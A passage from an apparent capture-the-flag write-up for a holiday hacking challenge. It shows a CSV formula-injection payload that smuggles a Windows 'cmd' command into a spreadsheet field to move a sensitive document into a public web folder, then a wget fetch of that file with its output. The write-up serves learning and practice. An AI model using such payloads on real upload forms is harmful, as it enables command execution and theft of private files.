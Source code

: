 The error message leaks the file system location we need to move
the `candidate_evaluation.docx` file to! Crafting a `.csv` payload
something like this to try..

```
$ cat resume-payload.csv
workplace, job description, =cmd|’ /C move C:\candidate_evaluation.docx C:\careerportal\resources\public’!’A1′
```

And then trying to fetch the file..

```
$ wget https://careers.kringlecastle.com/public/candidate_evaluation.docx
--2018-12-27 00:30:53--  https://careers.kringlecastle.com/public/candidate_evaluation.docx
Resolving careers.kringlecastle.com (careers.kringlecastle.com)... 35.229.118.54
Connecting to careers.kringlecastle.com (careers.kringlecastle.com)|35.229.118.54|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3912 (3.8K) [text/html]
Saving to: ‘candidate_evaluation.docx.2’

candidate_evalua 100%[==========>]   3.82K  --.-KB/s    in 0s

2018-12-27 00:30:53 (138 MB/s) - ‘candidate_evaluation.docx.2’ saved [3912/3912]
```
